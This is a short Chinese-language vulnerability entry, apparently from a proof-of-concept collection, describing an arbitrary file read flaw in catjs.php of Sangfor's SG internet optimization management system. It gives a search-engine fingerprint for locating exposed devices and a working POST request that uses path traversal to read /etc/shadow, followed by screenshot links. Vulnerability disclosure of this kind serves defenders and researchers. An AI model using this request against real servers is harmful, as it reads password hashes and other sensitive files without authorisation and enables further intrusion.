 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

深信服 SG上网优化管理系统

## 网络测绘

title=="SANGFOR上网优化管理"

## 漏洞复现

登陆页面

![image-20230817173330276](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230817173331163-22516204.png)

验证POC

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```



![image-20230817173347365](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230817173348228-932979154.png)